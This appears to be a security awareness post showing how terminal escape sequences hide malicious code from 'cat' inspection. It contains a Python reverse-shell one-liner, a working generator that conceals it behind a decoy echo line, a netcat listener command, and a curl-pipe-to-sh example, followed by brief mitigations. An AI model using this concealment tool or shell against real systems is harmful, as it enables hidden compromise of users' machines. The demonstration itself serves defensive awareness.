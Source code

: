 **Users frequently execute scripts without examining their contents, thereby exposing themselves to potential unintended consequences or security risks.**

Downloading and executing scripts such as

```
$ sh -c "$(curl -fsSL https://raw.github.com/ohmyzsh/ohmyzsh/master/tools/install.sh)
```

It is recommended to always check what is inside of the script.

How many times have you run the script, checking it superficially with a “cat” command beforehand? What if you’ve done that, and still managed to accidentally run malware on the machine?

## Terminal Injection

**“A terminal escape sequence is a special sequence of characters that is printed (like any other text). But, if the terminal understands the sequence, it won’t display the character-sequence, but will perform some action.”

### _Impostor:_

```
echo -n Hello there! This is todays date: $(date)
```

### _Payload:_

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### _Generator:_

```
#!/usr/bin/python 
import sys  

DELETE_CHAR = "\x7F" 
NEWLINE_CHAR = '\x0a'

def read_file(file):
  with open(file) as file_handle:
    return "".join(file_handle.readlines())  

def move_lines_up(line_count):
  return "\033[" + str(line_count) + "A"
   
def move_to_line_beginning():     
  return "\033[F"
  
def build_executable(impostor, shellcode):
  executable = shellcode
  executable += move_lines_up(shellcode.count(NEWLINE_CHAR) + 1)
  executable += move_to_line_beginning()
  executable += impostor + DELETE_CHAR * (len(shellcode) - len(impostor))     
  return executable
    
def main():    
  shellcode = read_file(sys.argv[1])    
  impostor = read_file(sys.argv[2])
  
  executable = build_executable(impostor, shellcode) 
      
  with open('./poc.sh', 'w') as file:       
    file.write(executable)  
  
if __name__ == "__main__":     
  main()
```

Now as we generate our script with hidden characters, let’s check what is inside using “cat” command.

```
$ cat ./poc.sh

echo -n Hello there! This is todays date: $(date)
```

Seems like nothing special. Let’s start the listener and run the script.

```
nc -lvnp 9999 & chmod 755 poc.sh && ./poc.sh
```

![](images/poc.gif)

### _**We just executed arbitrary, hidden code, resulting in a compromise of the machine.**_

To prevent this, use: 
```
- Command cat with -v parameter displays non-printing characters 
- Command more will reveal non printing characters in Windows environment 
- In Powershell use commandlet Write-Output
```

**Stay safe!**

K.